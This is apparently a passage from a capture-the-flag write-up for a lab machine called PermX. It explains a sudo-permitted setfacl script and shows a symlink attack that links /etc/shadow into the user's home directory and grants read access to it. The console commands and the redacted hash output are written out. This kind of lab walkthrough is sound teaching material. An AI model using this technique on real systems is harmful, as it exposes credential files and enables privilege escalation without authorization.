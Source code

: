 The provided **target file** is then checked by the script to see if it begins with `/home/mtz` and cleverly checks to see if the provided path contains `..`. 
If both conditions are true, then an `Access denied.` message is shown followed by the script exiting.
```bash
if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi
```

The script also check if the provided target path is a directory or not.
If it is, the message `Target must be a file` is shown followed by the script exiting.
```bash
# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi
```

Finally, `setfacl` is used to give the selected **user** the provided **permission type** on the specified file.

```bash
/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

> GeeksForGeeks - [setfacl (set file access control lists)](https://www.geeksforgeeks.org/linux-setfacl-command-with-example/)
> 
> In Linux distribution, setfacl stands for Set File Access Control List. It is a command utility tool for setting access control lists in files and directories. setfacl is a powerful tool for managing file permission based on respective Users and Groups rather than general file permission. 
>
> **setfacl - MAN page**
> The -m (--modify) and -M (--modify-file) options modify the ACL of a file or directory.  ACL entries for this operation must include permissions.
{: .prompt-info }

As a summary, we are only able to modify file permissions inside `/home/mtz` and we can not do a path traversal attack with something like `/home/mtz/../../etc/shadow`

### Symlink attack - Root Shell
We can however, create soft links to the desired file on the system on put the link inside our home directory or any path which begins with `/home/mtz`. Then when we use this script, it might actually change the permission on the actual file.

To test this, let's create a soft link of the `/etc/shadow` file inside our home directory `/home/mtz`. And then we would run the script and give ourselves read permissions.

```console
mtz@permx:~$ ln -s /etc/shadow ./shadow
mtz@permx:~$ sudo /opt/acl.sh mtz r /home/mtz/shadow
mtz@permx:~$ cat ./shadow
root:$y$j9T$[REDACTED]
...
mtz:$y$j9T$[REDACTED]
...
```
